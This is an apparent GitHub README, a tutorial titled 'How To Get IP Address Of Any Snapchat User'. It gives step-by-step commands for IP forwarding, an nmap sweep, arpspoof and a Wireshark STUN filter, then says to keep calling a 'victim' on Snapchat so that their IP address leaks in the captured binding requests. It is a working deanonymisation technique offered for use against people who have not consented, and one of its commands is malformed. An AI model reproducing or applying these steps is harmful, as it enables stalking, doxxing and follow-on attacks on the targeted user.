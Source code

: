 # How-To-Get-IP-Address-Of-Any-Snapchat-User
How To Get IP Address Of Any Snapchat User



👨‍💻Easy MITM Attack

📜Required:
- Mac OS X / Kali Linux   ( Or Any UNIX )
- A Phone Where You Have Snapchat On ( Im Assuming Its A Phone )
- Nmap
- Some Tools And Little MITM Knowledge !

👨‍🏫Here Is The Tut:

🌀Download Wireshark Here
 (https://www.wireshark.org/)
 
 🌀Download Arpspoof Here 
 (https://github.com/SuperMarcus/macos-arpspoof)  - MACOS only - Kali Linux Has This Already!

1. Fire Up Terminal And Ip Forward Your Laptop/pc With This Scripts:
Kali -   sudo sysctl net.ipv4.ip_forward = 1 
            sudo net.ipv4.ip_forward = 1
Mac -  sudo sysctl -w net.inet.ip.forwarding=1

2. Find Your Phone Device Local Ip And Write It Down.
      Nmap -sn <gateway ip>/24
Ex. nmap -sn (or -sP) 192.168.0.1/24

3. Spoof Your Phone.
         arpspoof -i <interface> -t <phone ip> gateway
Ex(mac):  arpspoof -i en0 -t 192.168.0.160 192.168.0.1

4. Fire up wireshark and filter On Your Phone Ip With Stun Protocol
   ip.addr == <phone ip> && stun
Ex: ip.addr == 192.168.0.160 && stun

5. Call Your Victim On Snap And Keep Calling Him For Around 5 Seconds.

🌀They Do Not Need Necessary To Answer
You Will See On Wireshark Some Binding Requests,  Then Some Other Stun Ones.

